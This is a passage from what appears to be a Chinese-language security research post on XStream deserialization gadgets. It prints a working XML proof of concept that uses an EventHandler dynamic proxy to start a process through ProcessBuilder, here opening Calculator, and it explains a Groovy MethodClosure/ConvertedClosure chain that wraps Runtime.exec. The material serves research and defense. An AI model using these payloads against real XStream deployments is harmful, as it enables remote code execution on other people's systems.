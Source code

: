 现在再来看看具体的[POC](https://github.com/wh1t3p1g/ysomap/blob/master/core/src/main/java/ysomap/core/payload/xstream/EventHandler.java)

```xml
<sorted-set>  
  <string>foo</string>
  <dynamic-proxy> <!-- Proxy 动态代理，handler使用EventHandler -->
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>/System/Applications/Calculator.app</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```

### 2. Groovy ConvertedClosure

**利用条件**：groovy <= 2.4.3，在后续的版本里，`MethodClosure`不允许反序列化调用。

除了上面这种`EventHandler`的动态代理方式，Groovy的`ConvertedClosure`也同样可以达到这种效果

#### MethodClosure

当前MethodClosure的主要作用就是封装我们需要执行的对象，比如

```java
new MethodClosure(Runtime.getRuntime(), "exec");
```

封装`Runtime`对象，并设定后续需要调用的函数`exec`

#### ConvertedClosure

这个`ConvertedClosure`也是继承了`InvocationHandler`，可以在动态代理中作为handler的存在，来看一下他的invoke

`ConvertedClosure`调用的是父类`org.codehaus.groovy.runtime.ConversionHandler#invoke`

![image-20200418142036889](/images/talk-about-xstream-deserialization-20200418/image-20200418142036889.png)
